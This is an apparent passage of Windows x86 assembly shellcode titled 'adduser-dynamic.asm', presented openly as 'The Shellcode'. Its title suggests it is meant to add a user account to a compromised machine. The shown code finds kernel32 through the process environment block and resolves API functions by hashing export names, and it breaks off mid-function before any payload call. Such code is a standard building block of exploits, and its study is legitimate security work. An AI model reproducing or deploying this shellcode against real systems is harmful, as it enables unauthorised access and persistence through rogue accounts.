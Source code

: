 The Shellcode

```
+--------------- Start adduser-dynamic.asm --------------+
;adduser-dynamic.asm
[SECTION .text]
BITS 32
global _start
_start:
    jmp start_asm
;DEFINE FUNCTIONS
;FUNCTION: find_kernel32
find_kernel32:
    push esi
    xor eax, eax
    mov eax, [fs:eax+0x30]
    test eax, eax
    js find_kernel32_9x
find_kernel32_nt:
    mov eax, [eax + 0x0c]
    mov esi, [eax + 0x1c]
    lodsd
    mov eax, [eax + 0x8]
    jmp find_kernel32_finished
find_kernel32_9x:
    mov eax, [eax + 0x34]
    lea eax, [eax + 0x7c]
    mov eax, [eax + 0x3c]
find_kernel32_finished:
    pop esi
    ret
;END FUNCTION: find_kernel32
;FUNCTION: find_function
find_function:
    pushad
    mov ebp, [esp + 0x24]
    mov eax, [ebp + 0x3c]
    mov edx, [ebp + eax + 0x78]
    add edx, ebp
    mov ecx, [edx + 0x18]
    mov ebx, [edx + 0x20]
    add ebx, ebp
find_function_loop:
    jecxz find_function_finished
    dec ecx
    mov esi, [ebx + ecx * 4]
    add esi, ebp ; esi now points to current function string
     ; start of compute hash function
compute_hash: ; put this into a function
    xor edi, edi ; edi will hold our hash result
    xor eax, eax ; eax holds our current char
    cld
compute_hash_again:
    lodsb ; puts current char into eax (except first time)
    test al, al ; checks for null - end of function string
    jz compute_hash_finished
    ror edi, 0xd ; rotate the current hash
    add edi, eax ; adds current char to current hash
    jmp compute_hash_again
compute_hash_finished: ; end of compute hash function
find_function_compare:
    ;this is where it compares the calculated hash to our hash
    cmp edi, [esp + 0x28]
    jnz find_function_loop
```